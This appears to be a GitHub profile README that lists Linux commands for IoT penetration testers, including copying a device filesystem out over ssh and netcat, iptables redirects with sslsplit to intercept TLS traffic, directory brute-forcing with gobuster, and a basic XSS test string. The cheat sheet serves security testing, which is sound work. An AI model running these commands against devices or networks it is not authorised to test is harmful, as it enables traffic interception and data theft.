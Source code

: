 - 👋 Hi, I’m @CertAndKey
- 👀 Here are some useful Linux commands for IoT pentesters

MOVE IoT FILESYSTEM TO PENTEST MACHINE  tar zcvf -  <FILESYSTEM_HERE> | ssh user@laptop "cat > /path/to/laptop/save.tgz"
ADD IPTABLES FORWARDING RULE            sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 -j REDIRECT --to-port 8080
SSLSPLIT SETUP                          sslsplit -D -X <OUTPUT_FILE_DESTINATION> -k ca.key -c ca.crt ssl 0.0.0.0 8080
COPY READY ONLY FILESYSTEM              dd if=/dev/sda | gzip -1 - | ssh user@local dd of=image.gz
ENABLE IPFORWARD                        sudo bash -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
GOBUSTER                                gobuster dir -u <URL> -w /usr/share/wordlists/dirb/common.txt
CROSS-SITE SCRIPT TEST                  <script>alert('hello')</script>
VIEW OPENSSL CERT CONTENTS              openssl x509 -in ca.crt -text
PICOCOM                                 sudo picocom -b <baud> /dev/<device>     TO EXIT PICOCOM: CTRL+A then CTRL+x
MOVING FILES WITH NETCAT                nc -nvlp 9999 > /output/file/path         # on your machine
                                        nc ip.of.your.machine 9999 < /path/to/bin # on IoT device
RUN THE SAME COMMAND ON LOTS OF FILES   find * >> files.txt
                                        for files in $(cat files.txt);do <command> $files;done   #iterates through files.txt and runs command on each one
LOCATE PARTITIONS                       cat /proc/mtd
MONITOR PERIPHERAL DEVICE ACTIVITY      sudo dmesg -w
REPLACE WITH SED                        sed -i 's/word1/word2/g' input.txt  #replaces word1 with word2 in the file, input.txt
                                                                            ^ = start of file, . = wildcard, .* = to end of file
ENABLE SSH SERVER                       sudo service ssh start
CHECK SSH SERVER STATUS                 sudo systemctl status ssh
CREATE SIMLINK                          ln -s test_file.txt link_file.txt
